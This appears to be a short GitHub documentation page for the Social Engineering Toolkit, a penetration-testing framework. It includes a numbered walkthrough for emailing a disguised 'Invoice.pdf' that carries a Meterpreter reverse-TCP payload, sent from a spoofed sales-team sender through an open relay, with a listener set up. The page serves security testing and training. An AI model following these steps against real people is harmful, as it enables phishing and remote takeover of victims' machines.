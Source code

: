 ```yaml
---
title: Social Engineering Toolkit
layout: default
---
```


# Social Engineering Toolkit
Open source penetration testing framework designed for social engineering.
Encompasses built-in attacks which are designed to be focused on a person or organization.

Detailed information [here](https://github.com/trustedsec/social-engineer-toolkit).

Social Engineering Toolkit covers:
- Spearphishing Attacks
- Website Attacks
- Infectious Media Attacks
- Wireless AP Attacks
- Powershell Attacks
- ...and more

# Techniques covered
- Technical Information Gathering
    - T1249 Conduct Social Engineering
    - T1397 Spearphishing for information
- People Information Gathering
    - T1268 Conduct Social Engineering

# Basic Usage
SET runs in interactive mode.

Google puts in a lot of effort to prevent phishing emails.
Setup your own server of relay server to send payload in email.

## Example: Spearphishing with PDF embedded exe
1. Spear-Phishing Attack Vectors
2. Create a FileFormat Payload
3. Adobe PDF Embedded EXE Social Engineering 
4. Use built-in BLANK PDF for attack
5. Windows Meterpreter Reverse_TCP(x64)
6. Host: external IP for your PC/listener
7. Port: default 443
8. Rename the file, I want to be cool.
9. New filename:Invoice.pdf
10. E-Mail Attack Single Email Address
11. Pre-Defined Template
12. Order Confirmation
13. Send email to:target@eyepaste.com
14. Use your own server or open relay
15. From address: abc@my-server.com
16. The FROM NAME user will see: Online Sales Team
17. Username for open-relay [blank]: <your-mail-server>
18. Password for open-relay [<your-mail-server>]: <your-mail-server-password>
19. SMTP email server address: <your-smtp-email-server-address>
20. Port number for SMTP server [25]: 587
21. Flag this message as high priority? [yes/no]: yes
22. Does your server support TLS? [yes/no]: no
23. Setup a listener [yes/no]:yes
24. This will start a metasploit session with listener
25. Now you have to wait for target to open set playload(pdf in this case)

